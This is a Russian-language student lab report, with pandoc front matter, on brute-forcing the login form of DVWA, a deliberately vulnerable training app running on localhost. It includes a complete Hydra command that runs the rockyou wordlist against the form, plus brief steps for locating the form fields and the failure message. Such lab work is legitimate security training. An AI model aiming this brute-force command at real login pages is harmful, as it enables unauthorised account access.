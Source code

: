 ```yaml
---
## Front matter
title: "Отчёт по индивидуальному проекту №3"
subtitle: "НКНбд-01-21"
author: "Юсупов Эмиль Артурович"

## Generic otions
lang: ru-RU
toc-title: "Содержание"

## Bibliography
bibliography: bib/cite.bib
csl: pandoc/csl/gost-r-7-0-5-2008-numeric.csl

## Pdf output format
toc: true # Table of contents
toc-depth: 2
lof: true # List of figures
lot: true # List of tables
fontsize: 12pt
linestretch: 1.25
papersize: a4
documentclass: scrreprt
## I18n polyglossia
polyglossia-lang:
  name: russian
  options:
	- spelling=modern
	- babelshorthands=true
polyglossia-otherlangs:
  name: english
## I18n babel
babel-lang: russian
babel-otherlangs: english
## Fonts
mainfont: Open Sans
romanfont: Open Sans
sansfont: Open Sans
monofont: Open Sans
mainfontoptions: Ligatures=TeX
romanfontoptions: Ligatures=TeX
sansfontoptions: Ligatures=TeX,Scale=MatchLowercase
monofontoptions: Scale=MatchLowercase,Scale=0.9
## Biblatex
biblatex: true
biblio-style: "gost-numeric"
biblatexoptions:
  - parentracker=true
  - backend=biber
  - hyperref=auto
  - language=auto
  - autolang=other*
  - citestyle=gost-numeric
## Pandoc-crossref LaTeX customization
figureTitle: "Рис."
tableTitle: "Таблица"
listingTitle: "Листинг"
lofTitle: "Список иллюстраций"
lotTitle: "Список таблиц"
lolTitle: "Листинги"
## Misc options
indent: true
header-includes:
  - \usepackage{indentfirst}
  - \usepackage{float} # keep figures where there are in the text
  - \floatplacement{figure}{H} # keep figures where there are in the text
---
```


# Введение

## Цель работы

- Воспользоваться утилитой Hydra на DVWA в секции Brute Force.

# Выполнение работы

1. Зашли во вкладку localhost/DVWA/vulnerabilities/brute/

2. Нашли нужные для нас компоненты страницы вида input, где name принадлежит [username, password, login] и параграф ошибки.

3. Ввели команду для hydra

```bash
hydra localhost http-post-form -l login -P /usr/share/wordlists/rockyou.txt \
"/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=login:Login failed" -V
```

4. Узнали, какие пароли успешны при данном username

# Заключение

Во время выполнения работы, мы получили практические навыки Brute Force при использовании утилиты Hydra
